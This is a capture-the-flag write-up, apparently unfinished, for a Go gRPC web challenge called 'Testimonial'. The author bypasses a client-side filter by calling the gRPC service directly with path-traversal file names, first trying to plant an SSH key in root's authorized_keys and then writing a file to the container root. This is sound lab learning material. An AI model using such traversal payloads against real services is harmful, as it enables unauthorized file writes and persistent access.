




# Testimonial

> As the leader of the Revivalists you are determined to take down the KORP, you and the best of your faction's hackers have set out to deface the official KORP website to send them a message that the revolution is closing in.
>
> Files:
> - `web_testimonial.zip`
>
> Docker
> - `94.237.53.3:32885`
> - `94.237.53.3:31535`

**Writeup by:** Hein Andre Grønnestad


- [Testimonial](#testimonial)
  - [Files](#files)
  - [Wesbite](#wesbite)
  - [Service](#service)
  - [Analysing The Code](#analysing-the-code)
  - [Poking Around The Website](#poking-around-the-website)
    - [XSS](#xss)
    - [Templating Injection](#templating-injection)
  - [Protocol Buffers](#protocol-buffers)


## Files

```bash
$ ll
total 64
-rwxrwxrwx 1 hag hag  4353 Mar 13 09:14 README.md
-rwxrwxrwx 1 hag hag 56528 Mar 13 09:16 web_testimonial.zip

$ unzip web_testimonial.zip
Archive:  web_testimonial.zip
  inflating: build-docker.sh
   creating: challenge/
  inflating: challenge/go.sum
   creating: challenge/client/
  inflating: challenge/client/client.go
 extracting: challenge/.gitignore
  inflating: challenge/.air.toml
   creating: challenge/public/
   creating: challenge/public/js/
  inflating: challenge/public/js/bootstrap.min.js
   creating: challenge/public/testimonials/
  inflating: challenge/public/testimonials/2.txt
  inflating: challenge/public/testimonials/1.txt
  inflating: challenge/public/testimonials/3.txt
   creating: challenge/public/css/
  inflating: challenge/public/css/main.css
  inflating: challenge/public/css/bootstrap.min.css
   creating: challenge/view/
   creating: challenge/view/layout/
  inflating: challenge/view/layout/app.templ
   creating: challenge/view/home/
  inflating: challenge/view/home/index.templ
   creating: challenge/pb/
  inflating: challenge/pb/ptypes_grpc.pb.go
  inflating: challenge/pb/ptypes.pb.go
  inflating: challenge/pb/ptypes.proto
  inflating: challenge/grpc.go
  inflating: challenge/go.mod
   creating: challenge/handler/
  inflating: challenge/handler/shared.go
  inflating: challenge/handler/home.go
  inflating: challenge/main.go
  inflating: challenge/Makefile
   creating: challenge/tmp/
  inflating: challenge/tmp/build-errors.log
  inflating: Dockerfile
  inflating: entrypoint.sh
 extracting: flag.txt
```

## Wesbite

Ther first endpoint is a web page.


The web site lists some testimonials and allows us to write one of our own.


## Service

The other endpoint is a service that just returns `@` when connected to.

```bash
$ nc 94.237.53.3 32885
@
```


## Analysing The Code

The source code is in Go. We're dealing with gRPC and protocol buffers.

Our second endpoint is probably a gRPC service.


## Poking Around The Website



We are able to post a testimonial.



We can also browse the `public` directory.


### XSS

I don't think `XXS` is the right attack vector here, but let's just try it anyway:



No apparent `XXS` vulnerability here.

### Templating Injection

From [index.templ](challenge/view/home/index.templ):

```html
  <section class="container mt-5">
      <h2 class="text-center mb-4">What Others Say</h2>
      <div class="row">
          @Testimonials()
      </div>
  </section>
```



Not an obvious `Templating Injection` vulnerability either.


## Protocol Buffers

Maybe we can find something in the protocol buffers?


```bash
$ python3 -m grpc_tools.protoc -I. --python_out=. --grpc_python_out=. challenge/pb/ptypes.proto
```


```bash
$ python3 rpc.py "../../../../../../../root/.ssh/authorized_keys" "ssh-rsa AAAAB3NzaC1yc2EAAAABIwAAAQEA9BplI+X2/T/b3JMjn2TYaPbhcQkl9oETcoHRsvsk13Pm3pBdrqz3fs2eNslCjYUzuVpQSZJA056Y+3ouW405Zw9UjaUmQsWwFnnH4HSXd1Z7kwfggWU3yruuTuMLyVuEWhfqovKpiki5hcoPHVRKu4WYEgqfy3phffSOf89XXw6ivfCp7sppFlnHn6XMUo+1tjkl2Z1V3uIns4OFkdC33Dqz+/vpYFZIScy7J/EgPcgnVdPKt9qOxyFIm5tzjsTxuUjtWZ9eq4oq3EB73qs5Zbl82oXi6XyHN1Oq03jV9bqw8gDCL0WtzVKd1lSM8O1IB+UToGziZVibU3oK2zKIdw=="
Traceback (most recent call last):
  File "/mnt/c/Dev/ctf-htb-cyber-apocalypse-2024/web/testimonial/challenge/pb/rpc.py", line 20, in <module>
    response = stub.SubmitTestimonial(request)
               ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "/home/hag/.local/lib/python3.11/site-packages/grpc/_channel.py", line 1176, in __call__
    return _end_unary_response_blocking(state, call, False, None)
           ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "/home/hag/.local/lib/python3.11/site-packages/grpc/_channel.py", line 1005, in _end_unary_response_blocking
    raise _InactiveRpcError(state)  # pytype: disable=not-instantiable
    ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
grpc._channel._InactiveRpcError: <_InactiveRpcError of RPC that terminated with:
        status = StatusCode.UNKNOWN
        details = "open public/testimonials/../../../../../../../root/.ssh/authorized_keys: no such file or directory"
        debug_error_string = "UNKNOWN:Error received from peer  {grpc_message:"open public/testimonials/../../../../../../../root/.ssh/authorized_keys: no such file or directory", grpc_status:2, created_time:"2024-03-13T10:38:40.643544418+01:00"}"
```


```
$ python3 rpc.py "../../../../1.txt.txt" "PPPPPPPPPPPPPPPPPPPPPPPPP"


/ # ls -al
total 96
drwxr-xr-x    1 root     root          4096 Mar 13 13:04 .
drwxr-xr-x    1 root     root          4096 Mar 13 13:04 ..
-rwxr-xr-x    1 root     root             0 Mar 13 11:44 .dockerenv
-rw-r--r--    1 root     root            25 Mar 13 13:04 1.txt.txt


func (c *Client) SendTestimonial(customer, testimonial string) error {
	ctx := context.Background()
	// Filter bad characters.
	for _, char := range []string{"/", "\\", ":", "*", "?", "\"", "<", ">", "|", "."} {
		customer = strings.ReplaceAll(customer, char, "")
	}

	_, err := c.SubmitTestimonial(ctx, &pb.TestimonialSubmission{Customer: customer, Testimonial: testimonial})
	return err
}
```